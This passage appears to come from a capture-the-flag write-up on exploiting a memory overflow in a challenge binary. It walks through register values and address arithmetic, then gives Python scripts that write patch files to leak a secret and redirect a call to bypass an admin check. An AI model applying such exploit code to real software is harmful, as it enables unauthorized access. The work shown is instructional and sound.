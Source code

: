 ![](https://image.ibb.co/jD18j6/21.png)

It's called in the following manner:
```
 attempt_login(hey.admin, protect, hey.secret);
```
And the registers correspond to these values at the time It's called.
```
hey.secret = edx
protect = [ebp-0x14]
hey.admin=eax
```

We can pass any value we want into the first part of the `hey` struct.  So we'll do exactly what we did before, but modify `edx` to call back into the `hey.user` section of our struct, making the function call to the first four bytes of `hey.user` instead of `hey.session`.  This is at `0x80003068` as above, so we'll follow the disassembly:
```
eax = ebx+0x68
edx = [eax+0xc]
```

Therefore we want solve `edx = ebx+0x68+0xc=0x80003068`.  This means we have to set ebx to `0x80002FF4`.
```python
import struct
with open('patchfile', 'wb') as tfile:
    tfile.write(struct.pack("<I",<LEAKED SECRET>))
    tfile.write(b'BBBB')
    tfile.write(struct.pack("<I", 0x80002FF4))
```
This should correctly patch the memory and correct the issue that our overflow causes, as well as write a non-zero value for the admin check, luckily.

Full Process
-------------------
I've combined these two into a single script.

Firstly, run the script without any arguments, causing the first patchfile to be generated, which will be the first file input.  When we choose the debug option, 3, it will now print the value of `hey.secret`.  Then the number printed, will be passed as an argument to this script, generating another patchfile.  Of course the second file must be loaded with option 4.

```python
import struct
import sys

args = len(sys.argv)
print args
with open('patchfile', 'wb') as tfile:
        if args == 1:
                tfile.write(b'ABCDEFGH')
                tfile.write(b'\xf8\x2f\x00\x80') #0x80002ff8
        if args == 2:
                tfile.write(struct.pack("<I", int(sys.argv[1], 16)))
                tfile.write(b'BBBB')
                tfile.write(struct.pack("<I", 0x80002FF4))
                #tfile.write(struct.pack("<I", 0x80003078-0x68-28))
```
